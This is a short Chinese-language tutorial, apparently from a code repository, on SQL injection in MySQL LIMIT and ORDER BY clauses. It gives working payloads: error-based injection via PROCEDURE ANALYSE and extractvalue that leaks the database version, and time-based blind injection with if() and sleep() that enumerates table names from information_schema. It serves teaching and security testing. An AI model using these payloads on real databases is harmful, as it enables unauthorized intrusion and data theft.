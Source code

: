 # limit注入

要求MySQL版本低于5.6

在limit后面是可以跟procedure analyse()这个子查询的

而且只能用extractvalue 和 benchmark 函数进行延时

当sql语句为

```
select * from admin order by id limit 0,1
```

此时因为order by而不是`where id ='id'`，`order by` 后面是不可以用union的,所以就不能使用联合查询

用以下报错注入

```
select * from admin order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3e,version())),1);
```

![image-20210803102526593](images/1.png)可以报出我数据库的版本

其他的注入就和报错注入一样了

# order by注入

假如一条sql语句是

```
select * from admin order by id='id';
```

payload:

```
时间盲注:
select * from admin order by if(1=1,1,sleep(1)); #正常时间
select * from admin order by if(1=2,1,sleep(1)); #有延迟
同样的，我们可以在上面的payload中替换我们想要的语句
比如：
order by if((select ascii(substr(table_name,1,1)) from information_schema.tables limit 1)<=128,1,sleep(1))
```
